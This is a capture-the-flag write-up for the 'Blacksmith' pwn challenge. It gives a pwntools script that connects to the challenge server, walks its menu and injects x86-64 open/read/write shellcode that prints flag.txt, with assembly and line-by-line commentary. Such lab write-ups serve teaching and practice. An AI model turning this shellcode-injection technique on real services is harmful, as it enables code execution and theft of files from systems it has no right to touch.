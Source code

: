 # Blacksmith Exploit Writeup

This document explains the exploit for the "Blacksmith" pwn challenge. The exploit leverages a buffer overflow vulnerability to execute a custom shellcode that reads the content of "flag.txt" from the server and prints it to the standard output.

## Exploit Analysis

The exploit is performed using a Python script with the `pwntools` library. Here is a step-by-step breakdown of the exploit's logic:

### 1. Connecting to the Service and Navigation

The script starts by connecting to the remote service:

```python
p = remote("94.237.57.211", 40894)
```

Then, it navigates through the application's menu to reach the vulnerable part of the program, which is related to crafting a "shield":

```python
p.sendlineafter(b"all!\n> ", b'1')
p.sendlineafter(b"\xf0\x9f\x8f\xb9\n> ", b'2')
```

### 2. The Shellcode

The core of the exploit is a custom shellcode written in assembly and assembled using `pwntools.asm`. This shellcode is designed to open, read, and print the content of "flag.txt".

Here is the assembly code for the shellcode:

```nasm
push r10
inc r10
mov rax, r10
lea rdi, [rip+31]
xor rsi, rsi
xor rdx, rdx
syscall

mov rsi, rdi
mov rdi, rax
xor rax, rax
mov rdx, r11
syscall

mov rdx, rax
pop rax
mov rdi, rax
syscall
```

Let's break down the shellcode's functionality:

#### a. Opening the Flag File

- `push r10`, `inc r10`, `mov rax, r10`: These instructions set up the `open` syscall. It's assumed that `r10` holds a value that, when incremented, becomes 2, which is the syscall number for `open`.
- `lea rdi, [rip+31]`: This instruction loads the address of the "flag.txt" string into the `rdi` register. The string is placed immediately after the shellcode, and `31` is the length of the shellcode itself. `rdi` holds the first argument for the `open` syscall (the filename).
- `xor rsi, rsi`, `xor rdx, rdx`: These instructions set the `rsi` (flags) and `rdx` (mode) registers to 0. This is equivalent to opening the file with `O_RDONLY`.
- `syscall`: This executes the `open("flag.txt", O_RDONLY)` syscall. The file descriptor of the opened file is returned in the `rax` register.

#### b. Reading the Flag Content

- `mov rsi, rdi`: The address of the "flag.txt" string (which was in `rdi`) is moved to `rsi`. This address will be used as the buffer to store the content of the flag. This means the filename will be overwritten by the file's content.
- `mov rdi, rax`: The file descriptor returned by the `open` syscall (in `rax`) is moved to `rdi`. `rdi` now holds the first argument for the `read` syscall.
- `xor rax, rax`: The `rax` register is cleared to 0, which is the syscall number for `read`.
- `mov rdx, r11`: The `rdx` register (the `count` argument for `read`) is set to the value of `r11`. The exploit assumes that `r11` contains a value large enough to read the entire flag.
- `syscall`: This executes the `read(fd, buffer, count)` syscall, reading the content of the flag into the buffer where the "flag.txt" string was stored.

#### c. Printing the Flag

- `mov rdx, rax`: The number of bytes read by the `read` syscall (returned in `rax`) is moved to `rdx`. This will be the `count` for the `write` syscall.
- `pop rax`: This restores the original value of `r10` (pushed at the beginning) into `rax`. It is assumed that the original value of `r10` was 1, which is the file descriptor for standard output.
- `mov rdi, rax`: The value from `rax` (assumed to be 1) is moved to `rdi`, which is the first argument for the `write` syscall (the file descriptor).
- `syscall`: This executes the `write(1, buffer, count)` syscall, printing the content of the flag to the standard output.

### 3. Sending the Exploit

The shellcode is combined with the "flag.txt" string and sent to the server:

```python
payload = asm(...)
payload += b"flag.txt"
p.sendafter(b"weapon?\n> ", payload)
```

### 4. Receiving the Flag

Finally, the script enters a loop to receive and print the output from the server, which will be the content of "flag.txt":

```python
while True:
    print(p.recvline())
```

## Conclusion

This exploit successfully demonstrates how a buffer overflow vulnerability can be used to execute arbitrary code on the server. By carefully crafting a shellcode, we can make the server read a sensitive file and send its content back to us.
